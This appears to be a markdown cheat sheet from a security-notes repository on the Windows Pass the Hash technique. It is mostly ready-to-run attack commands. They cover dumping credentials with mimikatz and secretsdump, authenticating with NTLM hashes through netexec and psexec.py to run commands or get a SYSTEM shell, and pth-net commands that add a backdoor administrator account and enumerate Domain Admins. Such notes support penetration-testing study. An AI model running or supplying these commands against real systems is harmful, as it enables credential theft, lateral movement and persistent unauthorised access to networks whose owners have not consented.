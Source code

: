 **Pass the Hash** (PtH) is a post-exploitation technique that allows attackers to authenticate to systems without needing plaintext credentials. Instead, attackers use the **hashed version** of a password directly to access resources. This is possible due to weak authentication protocols, primarily in Windows environments, which validate hashes rather than plaintext passwords.

---

## Key Concepts

- **Hash Authentication**: Many Windows services accept NTLM hashes as authentication without verifying the plaintext password.
- **Hash Retrieval**: Hashes are extracted from memory, SAM databases, or network traffic using tools like Mimikatz or secretsdump.
- **Lateral Movement**: Attackers use the retrieved hashes to access additional systems, escalating their control within the network.

--- 

## Obtain Hashes

- Extract NTLM hashes from a compromised system using tools like:

```bash
mimikatz sekurlsa::logonpasswords
```

Or dump hashes from the SAM database:

```bash
secretsdump.py <target_user>@<target_ip>
```

## Use Hashes to authenticate

#### Using netexec

| Option        | Description                                                |
| ------------- | ---------------------------------------------------------- |
| `<target_ip>` | Target machine's IP address.                               |
| `<username>`  | User account.                                              |
| `<NTLM_hash>` |  Hash (format: `<LM_Hash>:<NT_Hash>` or just `<NT_Hash>`). |

```bash
netexec smb <target_ip> -u <username> -H <NTLM_hash>
```

**Check for Administrative Access**: To see if the hash provides administrative privileges:

```bash
netexec smb <target_ip> -u <username> -H <NTLM_hash> --admin
```

**Execute Commands**: If administrative access is confirmed, you can execute commands:

```bash
netexec smb <target_ip> -u <username> -H <NTLM_hash> -x "whoami"
```

#### Using PsExec

**PsExec** is a Microsoft Sysinternals tool (and also a technique replicated by Impacket and Metasploit modules) that allows remote command execution via SMB.  
With PtH, it can authenticate using **NTLM hashes** instead of passwords.

```bash
psexec.py <domain>/<username>@<target_ip> -hashes <LM_Hash>:<NT_Hash>
```
- `-hashes` allows direct use of NTLM hashes.

- If the account is a local or domain admin, this spawns a remote SYSTEM shell.
- 

---

## Pth-net 

`pth-net` is a modified version of the Windows `net.exe` command that supports hash-based authentication, allowing attackers to interact with remote systems without knowing the plaintext password.

**Common Usage:**

- Creates a new local user named `eviluser` with the password `Passw0rd!`.
```bash
pth-net user add <username> <password> /add
```

- Adds the newly created user to the local Administrators group.
```bash
pth-net localgroup administrators eviluser /add
```

- Lists members of the Domain Admins group in a domain environment.
```bash
pth-net group "Domain Admins" /domain
```

- Establishes a connection to the IPC$ share using NTLM hash authentication.
```bash
pth-net use \\target\IPC$ /user:<domain>\<username> <NTLM_hash>
```